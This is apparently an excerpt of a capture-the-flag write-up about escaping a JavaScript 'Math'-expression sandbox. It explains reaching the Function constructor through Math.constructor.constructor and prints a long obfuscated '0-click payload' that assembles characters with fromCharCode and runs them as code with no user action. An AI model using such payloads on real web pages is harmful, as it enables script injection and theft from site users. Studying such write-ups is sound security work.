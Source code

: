 Unfortunately, the current payload isn't 0-click and it won't work until you press the `=` button. 

Using `Math.constructor.constructor` we can create the `Function` object, then we can call it using the `Math.constructor.call.call`.

The final 0-click payload looks like this:

### 0-click payload

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.expm1,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.expm1,\
Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,\
Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,\
Math.seeds.push,Math.acos,Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,\
Math.E.constructor.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,\
Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.clz32,Math.sqrt,\
Math.fround.name.at,Math.seeds.push,Math.cbrt,Math.acos.name.at,Math.seeds.push,Math.log10,\
Math.cos.name.at,Math.seeds.push,Math.cbrt,Math.trunc.name.at,Math.seeds.push,Math.log2,Math.expm1.name.at,\
Math.seeds.push,Math.log2,Math.seeds.at,Math.seeds.push,Math.log2,Math.trunc.name.at,Math.seeds.push,\
Math.cos,Math.trunc.name.at,Math.seeds.push,Math.cos,Math.clz32,Math.exp,Math.log2,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.asinh,Math.round,Math.seeds.find.name.at,Math.seeds.push,Math.asinh,Math.round,\
Math.seeds.isPrototypeOf.name.at,Math.seeds.push,Math.cos,Math.seeds.map.name.at,Math.seeds.push,Math.sin,\
Math.seeds.at.name.at,Math.seeds.push,Math.sin,Math.seeds.includes.name.at,Math.seeds.push,Math.cbrt,\
Math.seeds.find.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.random.name.toString,Math.seeds.join,\
Math.constructor.constructor,Math.constructor.call.call

![img1](./imgs/10.png)
